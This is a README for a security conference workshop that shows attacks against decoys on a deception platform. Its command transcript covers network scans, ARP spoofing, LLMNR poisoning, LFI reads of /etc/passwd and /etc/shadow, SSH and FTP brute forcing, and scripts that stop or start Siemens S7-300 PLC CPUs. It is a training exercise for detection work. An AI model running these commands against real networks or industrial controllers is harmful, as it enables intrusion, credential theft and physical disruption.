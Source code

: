 # Welcome to the Advanced Threat Summit 2023

All you may need for the workshop is available in this repository.

## Getting the access
To begin with, please navigate to our test stand:
1. **Credentials to the AdminVM**
You may use any web browser of your choice.
```
URL: 
Username:
Password:  
```

2. **Credentials to the attacking host**
From this host you will perform your attacks. Please use SSH and following credentials:
```
Host:
Username:
Password:
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own therms that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **AdminVM (Management Console)**  = main module that controls the system.
6. **WorkerVM** = node on which Points are running.


## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: connecting to the host using data from breadcrumbs 
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: ARP spoofing
```
sudo ettercap -i <interface> -T -M arp /<host 1>// /<host2>//
```
As an alternative you may use bettercap:
```
sudo bettercap
net.probe on
net.show
set arp.spoof.targets <Point IP>
set arp.spoof.fullduplex false
arp.spoof on
// after some time
arp.spoof off
```
References: [ettecap](https://www.ettercap-project.org/) and [bettercap](https://github.com/bettercap/bettercap) source

#### Case 4: LLMNR / NBT-NS Poisoning
For this we will be using *Responder*. It is already installed. All you need to do is to run a command:

```
cd Responder
sudo python2 Responder.py -I eth0
```
Reference: [Responder source](https://github.com/SpiderLabs/Responder)

#### Case 5: S7comm Malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is available in this repo.
Simply run it: 
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
cd S7_malformed_PDU
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
#### Case 6: Local File Inclusion
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```

#### [Advanced] Case 7: reusing the credentials
1. Find Web Server
```
sudo nmap -sS -sC -p80,443 <Honeynet IP> -vvv
```
2. Explore found web server
Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```

Search for additioanl web path:
```
dirsearch --wordlists=/home/user/wordlists/directories.txt -u https://<Point IP>/ 
```

Reference: [dirsearch](https://github.com/maurosoria/dirsearch)

3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
6. Reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 8: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP
Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP address>
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py <S7-300 IP address>
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 
